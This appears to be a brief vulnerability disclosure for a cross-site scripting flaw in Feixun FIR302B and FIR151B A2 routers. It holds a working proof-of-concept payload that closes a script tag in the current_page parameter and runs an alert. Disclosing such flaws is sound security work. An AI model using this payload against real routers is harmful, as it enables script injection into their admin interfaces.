 # feixun-xss

## Affected models: FIR302B, FIR151B A2


### FIR302B 


### FIR151B A2  
![image](https://user-images.githubusercontent.com/72059221/180923638-4318f198-6953-415a-a5c2-c9674d2b4392.png)



## Payload

```
current_page=</script><script>alert("XSS")</script>;//
```

